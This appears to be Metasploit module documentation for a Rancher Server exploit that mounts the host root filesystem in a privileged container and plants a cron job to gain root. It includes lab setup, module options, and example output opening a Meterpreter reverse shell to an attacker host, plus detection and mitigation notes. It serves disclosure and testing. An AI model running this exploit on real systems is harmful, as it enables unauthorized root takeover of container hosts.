 # Vulnerable Application
Utilizing Rancher Server, an attacker can create a docker container
with the '/' path mounted with read/write permissions on the host
server that is running the docker container. As the docker container
executes command as uid 0 it is honored by the host operating system
allowing the attacker to edit/create files owned by root. This exploit
abuses this to creates a cron job in the '/etc/cron.d/' path of the
host server.

The Docker image should exist on the target system or be a valid image
from hub.docker.com.

## Rancher setup
Rancher is deployed as a set of Docker containers. Running Rancher is
as simple as launching two containers. One container as the management
server and another container on a node as an agent.

This module was tested with Debian 9 and CentOS 7 as the host operating
system with Docker 17.06.1-ce and Rancher Server 1.6.2, all with
default installation.

### Install Debian 9
First [install Debian 9][1] with default task selection. This includes
the "*standard system utilities*".

### Install Docker CE
Then install a supported version of [Docker on Debian system][2].

```bash
# TL;DR
apt-get remove docker docker-engine
apt-get install apt-transport-https ca-certificates curl gnupg2 software-properties-common
curl -fsSL https://download.docker.com/linux/debian/gpg | apt-key add -
apt-key fingerprint 0EBFCD88
# Verify that the key ID is 9DC8 5822 9FC7 DD38 854A E2D8 8D81 803C 0EBF CD88.
add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/debian $(lsb_release -cs) stable"
apt-get update
apt-get install docker-ce
docker run hello-world
```

### Rancher Server (Management)
I recommend doing a ['Rancher Server - Single Container (NON-HA)'
installation][3].

If Docker is installed, the command to start a single instance of
Rancher is simple.

```bash
# TL;DR
sudo docker run -d --restart=unless-stopped -p 8080:8080 rancher/server
```

If all is passing navigate to `http://[ip]:8080/`. You should see the
Rancher Server UI web application.

### Rancher Host (Agent)

Add a [new host][4] to Rancher Server so that the Docker host can be managed.

**Set Host Registration URL**

The first time that you add a host, you may be required to set up the
Host Registration URL.

* Navigate to Admin / Settings (`http://[ip]:8080/admin/settings`)
* Check if `"http://[ip]:8080/"` is set 
* Click on Save.

**Add new host**

* Navigate to Infrastructure / Hosts (`http://[ip]:8080/env/1a5/infra/hosts`)
* Click on Add Host
* Copy the command from Point 5 (and remove sudo prefix)
  `docker run --rm --privileged -v /var/run/docker.sock:/var/run/docker.sock -v /var/lib/rancher:/var/lib/rancher rancher/agent:v1.2.2 http://[ip]:8080/v1/scripts/XXXXXXXXXXXXXXXXXXXX:XXXXXXXXXXXXX:XXXXXXXXXXXXXXXXXXXXXXXXX`
* Paste and run the command on the host

The new host should pop up on the Hosts screen within a minute.

# Exploitation
This module is designed to gain root access on a Rancher Host.

## Options
- CONTAINER_ID if you want to have a human readable name for your container, otherwise it will be randomly generated.
- DOCKERIMAGE is the local image or hub.docker.com available image you want to have Rancher to deploy for this exploit.
- TARGETURI this is the Rancher Server API path. The default environment is `/v1/projects/1a5`.
- TARGETHOST is the Rancher Host ID for the target system. The default host is `1h1`.
- WAIT_TIMEOUT is how long you will wait for a docker container to deploy before bailing out if it does not start.

By default access control is disabled, but if enabled, you need API
Keys with at least "restrictive" permission in the environment.
See Rancher docs for [api-keys][5] and [membership-roles][6].

- HttpUsername is for your Access Key
- HttpPassword is for your Secret Key

## Steps to exploit with module
- [ ] Start msfconsole
- [ ] use exploit/linux/http/rancher_server
- [ ] Set the options appropriately and set VERBOSE to true
- [ ] Verify it creates a docker container and it successfully runs 
- [ ] After a minute a session should be opened from the agent server

## Example Output
```
msf > use exploit/linux/http/rancher_server
msf exploit(rancher_server) > set RHOST 192.168.91.111
RHOST => 192.168.91.111
msf exploit(rancher_server) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf exploit(rancher_server) > set LHOST 192.168.91.1
LHOST => 192.168.91.1
msf exploit(rancher_server) > set VERBOSE true
VERBOSE => true
msf exploit(rancher_server) > check

[+] TARGETHOST 1h1 found on TARGETURI /v1/projects/1a5
[*] 192.168.91.111:8080 The target appears to be vulnerable.
msf exploit(rancher_server) > exploit

[*] Started reverse TCP handler on 192.168.91.1:4444
[*] Setting container json request variables
[*] Creating the docker container command
[+] The docker container is created, waiting for it to deploy
[*] Waiting up to 60 seconds for docker container to start
[+] The docker container has stopped, now trying to remove it
[+] The docker container has been removed.
[*] Waiting for the cron job to run, can take up to 60 seconds
[*] Sending stage (40747 bytes) to 192.168.91.111
[*] Meterpreter session 1 opened (192.168.91.1:4444 -> 192.168.91.111:49948) at 2017-07-27 22:18:00 +0200
[+] Deleted /etc/cron.d/wlHVKGMA
[+] Deleted /tmp/jxKUxUyN

meterpreter > sysinfo
Computer     : rancher
OS           : Debian 9.1 (Linux 4.9.0-3-amd64)
Architecture : x64
Meterpreter  : x64/linux
meterpreter >
```
## Exploit Detection
Rancher Server has an [audit log][7]. While running this module two
events (create and delete) were logged. Even though the container is 
deleted, its still able to be viewed from the link in the audit log.

## Mitigation
* Do not deploy a Rancher Host on the same host where the Rancher
  Server is. Your entire rancher infrastructure is in [danger][8].
* Only allow trusted users to have more permissions than read-only.

Docker protection such as Username Namespaces could not be applied
because Rancher Agents run as a privileged container.


[1]:https://www.debian.org/releases/stretch/amd64/index.html.en
[2]:https://docs.docker.com/engine/installation/linux/docker-ce/debian/
[3]:https://rancher.com/docs/rancher/v1.6/en/installing-rancher/installing-server/#launching-rancher-server---single-container-non-ha
[4]:https://rancher.com/docs/rancher/v1.6/en/hosts/#adding-a-host
[5]:https://rancher.com/docs/rancher/v1.6/en/api/v2-beta/api-keys/
[6]:https://rancher.com/docs/rancher/v1.6/en/environments/#membership-roles
[7]:https://rancher.com/docs/rancher/v1.6/en/rancher-services/audit-log/
[8]:https://rancher.com/docs/rancher/v1.6/en/faqs/troubleshooting/#help-i-turned-on-access-controldocsrancherv16enconfigurationaccess-control-and-can-no-longer-access-rancher-how-do-i-reset-rancher-to-disable-access-control
[9]:https://rancher.com/docs/rancher/v1.6/en/installing-rancher/selinux/
